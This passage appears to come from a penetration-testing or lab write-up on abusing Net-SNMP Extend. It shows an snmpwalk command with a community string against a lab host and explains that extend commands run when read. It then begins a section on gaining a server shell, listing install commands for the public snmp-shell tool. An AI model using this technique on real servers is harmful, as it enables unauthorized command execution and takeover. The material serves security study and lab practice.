 ```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Showing that the command is `/bin/echo`

![Untitled](/assets/img/pitcures/snmp/snmp12.png)

The command will be executed when the it is read. run-on-read()

![Untitled](/assets/img/pitcures/snmp/snmp13.png)

The command `/bin/echo` "hello rio is here" was executed during our snmpwalk read

![Untitled](/assets/img/pitcures/snmp/snmp14.png)

<h3 data-toc-skip>Getting the Shell from Net-SNMP Extend</h3>

In this section, I would like to discuss how to gain a server shell to control the server.

You can use python script developed by mxrch that can be downloaded from [https://github.com/mxrch/snmp-shell.git](https://github.com/mxrch/snmp-shell.git)

You can install the pre-requisite to run this:

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

![Untitled](/assets/img/pitcures/snmp/snmp15.png)

